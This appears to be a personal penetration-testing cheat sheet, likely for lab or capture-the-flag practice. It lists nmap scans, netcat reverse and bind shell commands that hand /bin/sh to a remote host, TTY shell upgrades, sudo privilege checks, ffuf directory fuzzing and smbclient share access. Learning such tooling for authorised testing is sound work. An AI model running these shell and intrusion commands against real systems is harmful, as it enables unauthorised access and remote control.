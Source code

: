 # NMAP
~~~
nmap -T4 -p- -A <target ip>
~~~
# Python Webserver
~~~
python3 -m http.server <port>
~~~

# Netcat
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~
## Reverse Shell
### Attacker Listener
nc -nlvp 4444

### Target Connecting
nc 192.168.1.2 4444 -e /bin/sh

## Bind Shell
### Attacker Connecting
nc 192.168.1.2 4444

### Target Listener
nc -nvlp 4444 -e /bin/sh
~~~

# TTY Shell
~~~
## Using python
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")'

## Echo
echo 'os.system('/bin/bash')'

## sh
/bin/sh -i

## bash
/bin/bash -i

## Perl
perl -e 'exec "/bin/sh";'

## From within VI
:!bash
~~~
# System Info
~~~
uname -a
~~~
# Privilege Escalation Check
~~~
sudo -l
~~~
# OpenVPN
~~~
sudo openvpn <file>.vpn
~~~
# ffuf
~~~
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://<ip>/FUZZ
~~~
# SMB
~~~
* You can make use of // or \\\\...\\
* Don't forget sudo if you want to download to your own folder
## List SMB shares
smbclient -L \\\\<target ip>\\

## Connect to SMB share
smbclient \\\\<target ip>\\<share>
smbclient \\\\<target ip>\\<share> -U <user>
smbclient \\\\<target ip>\\<share> -U <user>%<password>

## Commands
dir
put
get
exit
more
~~~

